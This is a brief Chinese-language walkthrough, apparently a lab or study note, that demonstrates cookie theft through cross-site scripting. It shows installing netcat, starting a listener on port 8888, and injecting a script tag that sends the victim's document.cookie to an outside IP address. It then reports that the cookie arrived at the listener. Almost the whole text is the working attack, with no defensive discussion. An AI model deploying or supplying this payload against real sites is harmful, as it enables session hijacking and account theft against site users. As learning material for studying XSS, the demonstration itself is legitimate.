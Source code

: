 

服务器安装nc开启监听

```
sudo apt install netcat-openbsd -y
nc -lvp 8888
```

![image-20250827194704478](images/image-20250827194704478.png)

传本机的cookie到nc机器

```
<script>new Image().src="http://13.75.42.219:8888/?output="+document.cookie;</script>

```

![image-20250827195004192](images/image-20250827195004192.png)

nc机器成功监听到cookie

![image-20250827195531542](images/image-20250827195531542.png)
